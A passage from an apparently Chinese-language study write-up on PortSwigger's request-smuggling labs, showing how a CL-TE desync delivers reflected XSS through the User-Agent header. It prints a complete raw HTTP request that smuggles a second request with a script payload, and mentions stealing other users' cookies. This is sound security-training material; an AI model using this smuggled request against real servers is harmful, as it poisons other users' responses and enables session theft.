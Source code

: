 试了一晚上，还是没有完整的泄露出来，，可能是不够长？？？但是太长总提示超时，，，

## Exploit Reflected XSS

这个场景比较少见，利用也有受限。同样，如果有，可以拿到别人的cookie。

lab：https://portswigger.net/web-security/request-smuggling/exploiting/lab-deliver-reflected-xss

还是CL-TE：

>   本实验涉及前端和后端服务器，前端服务器不支持分块编码。
>
>   该应用程序还容易受到通过 User-Agent 标头反射的 XSS 的攻击。
>
>   为了解决实验室问题，将请求偷运到后端服务器，导致下一个用户的请求接收包含执行 alert(1) 的 XSS 漏洞的响应。

UA的地方可以xss：

```http
POST / HTTP/1.1
Host: 0a1700880449444fc029034c00a000a0.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=UlNKTSZflefPZc6kewaDGpemn7Isi5I0
Upgrade-Insecure-Requests: 1
Content-Length: 148
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: "><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1
```
